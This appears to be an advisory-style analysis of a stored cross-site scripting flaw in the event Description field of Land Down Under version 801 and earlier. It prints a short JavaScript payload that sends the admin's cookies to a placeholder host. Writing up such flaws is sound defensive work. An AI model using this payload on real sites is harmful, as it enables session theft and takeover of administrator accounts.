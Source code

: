 Based on the provided information, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The vulnerability is due to the lack of proper input sanitization in the "Description" field when submitting an event through `events.php?m=add` in Land Down Under (LDU).

**Weaknesses/Vulnerabilities Present:**
- **Cross-Site Scripting (XSS):** The primary vulnerability is an XSS vulnerability. The application fails to properly sanitize user-supplied input in the "Description" field, allowing the injection of arbitrary HTML and JavaScript code.

**Impact of Exploitation:**
- **Cookie Stealing:** The most immediate impact mentioned is the ability to steal an administrator's cookie. By injecting malicious JavaScript, an attacker can redirect the admin to a malicious site and exfiltrate their session cookies, potentially gaining administrative access to the LDU system.
- **Arbitrary Code Execution in Admin Context:** This has further implications such as potential modification of the application, deletion or extraction of data.

**Attack Vectors:**
- The attack vector is the "Description" field of an event submission form in the LDU application. A logged-in user can insert malicious JavaScript code into the description.

**Required Attacker Capabilities/Position:**
- **User Account:** The attacker needs a valid user account on the LDU system, which is required to access the event submission form.
- **Admin Interaction:** The injected JavaScript payload is executed in the admin's browser when they review and approve the event.

**Technical Details:**
The provided exploit code is:

```html
<script>document.location="http://example.com/script?cookie="+escape(document.cookie)</script>
```

This script, when executed in the admin's browser, redirects their browser to `http://example.com/script?cookie=` and appends their cookie data. This allows an attacker to steal the user's session information.

**Affected Versions:**
LDU version 801 and earlier are vulnerable.